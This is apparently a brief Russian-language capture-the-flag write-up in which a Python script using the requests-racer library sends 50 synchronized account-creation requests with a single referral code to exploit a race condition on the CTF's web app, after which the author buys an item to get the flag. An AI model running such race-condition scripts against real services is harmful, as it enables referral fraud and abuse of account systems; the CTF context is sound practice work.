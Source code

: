 Находим эндпоинты, Race Condition (много аккаунтов, один реф код)

```python
import requests
cookies = {
    '__cfduid': '51e90dc3f56fc7d883478061aafd7e12',
}
headers = {
    'Host': 't-galera-u12p5koe.spbctf.net',
    'Accept': '*/*',
    'Content-Type': 'application/json',
    'User-Agent': 'Galera/1 CFNetwork/1494.0.7 Darwin/23.4.0',
    'Accept-Language': 'en-GB,en;q=0.9',
    # 'Content-Length': '76',
    # 'Accept-Encoding': 'gzip, deflate, br',
    # 'Cookie': '__cfduid=51e90dc3f56fc7d883478061aafd7e12',
}
from requests_racer import SynchronizedAdapter
s = requests.Session()
sync = SynchronizedAdapter()
s.mount('http://', sync)
s.mount('https://', sync)
resps = [s.post(
    'https://t-galera-u12p5koe.spbctf.net/create',
    cookies=cookies,
    headers=headers,
    json={
    'ref_code': 'GALERA-60ae645b',
    'username': 'hui1234512x'+str(j),
    'password': 'hui1234512x'+str(j),
}
) for j in range(50)]
print(resps)
sync.finish_all()
print(resps)
```

[GitHub - nccgroup/requests-racer: Small Python library that makes it easy to exploit race conditions in web apps with Requests.](https://github.com/nccgroup/requests-racer)

Покупаем Свободу, забираем флаг
